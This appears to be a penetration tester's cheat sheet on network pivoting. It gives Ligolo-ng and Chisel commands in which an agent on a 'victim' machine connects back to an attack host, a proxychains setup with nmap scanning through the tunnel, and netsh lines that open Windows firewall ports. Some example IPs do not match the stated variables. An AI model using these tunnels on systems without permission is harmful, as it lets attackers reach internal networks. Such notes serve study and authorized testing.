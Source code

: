 > [!info] Always try to use **[Ligolo-ng](https://github.com/nicocha30/ligolo-ng)**

**[Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/tunneling-and-port-forwarding)**

#### Ligolo-ng

```text
Lets define some variables for the example:
	Our attack machine would be 192.168.45.211
	Our victim machine would be 192.168.222.63
	The unreachable network would be 10.4.222.0/24
	The unreachable machine we want to attack 10.4.222.215


- Setup in attack machine:
	# sudo ip tuntap add user $USER mode tun ligolo
	# sudo ip link set ligolo up
	# sudo ip route add 172.16.136.0/24 dev ligolo (Here we specify that the network route should go through our ligolo device)
	# ./proxy -selfcert (Note the port from the output: Listening on 0.0.0.0:11601)

- Launch agent in victim machine:
	# ./agent -connect 192.168.45.151:11601 -ignore-cert

- In ligolo console:
	# session
	# start
	# listener_add --addr 0.0.0.0:8080 --to 127.0.0.1:80 
		Here we specify a port forwarding where all connections recieved in the victim machine at port 8080 would be redirected to our attack achine at port 80. We can change this ports
		If error "bind: permission denied" appear we need to specify another unused port greather than 1000

- To clear everything once we have finished
	# sudo ip route del 172.16.136.0/24 dev ligolo
	# sudo ip link del ligolo
```


#### Chisel

If we have a SSH connection, use SSH Port forwarding instead of Chisel (ssh -D 8081 [root@10.129.160.194](mailto:root@10.129.160.194))

**[Reverse Dynamic SOCKS Proxy](https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/#reverse-dynamic-socks-proxy)

It is useful when we want to access to the host & multiple ports that cannot be directly accessible from local machine.

```bash
# In local machine (attack)
chisel server -p 9999 --reverse

# In remote machine (victim)
chisel client 10.0.0.1:9999 R:9000:socks

```

Then modify **`/etc/proxychains.conf`** in local machine.

Comment out the line of **"socks4"**.

```bash
# /etc/proxychains.conf
...
socks5 127.0.0.1 9000

```

To confirm if we can reach the desired host and port, run **nmap** with **proxychains**.

```bash
proxychains nmap localhost

```

#### Windows - Firewall problems

If we are facing firewall in Windows we can open the port to establish the port forwarding

```shell
netsh advfirewall firewall add rule name="port_forward_ssh_2222" protocol=TCP dir=in localip=192.168.50.64 localport=2222 action=allow
```

Now, to delete the rule and port forward

```shell
netsh advfirewall firewall delete rule name="port_forward_ssh_2222"
netsh interface portproxy del v4tov4 listenport=2222 listenaddress=192.168.50.64
```
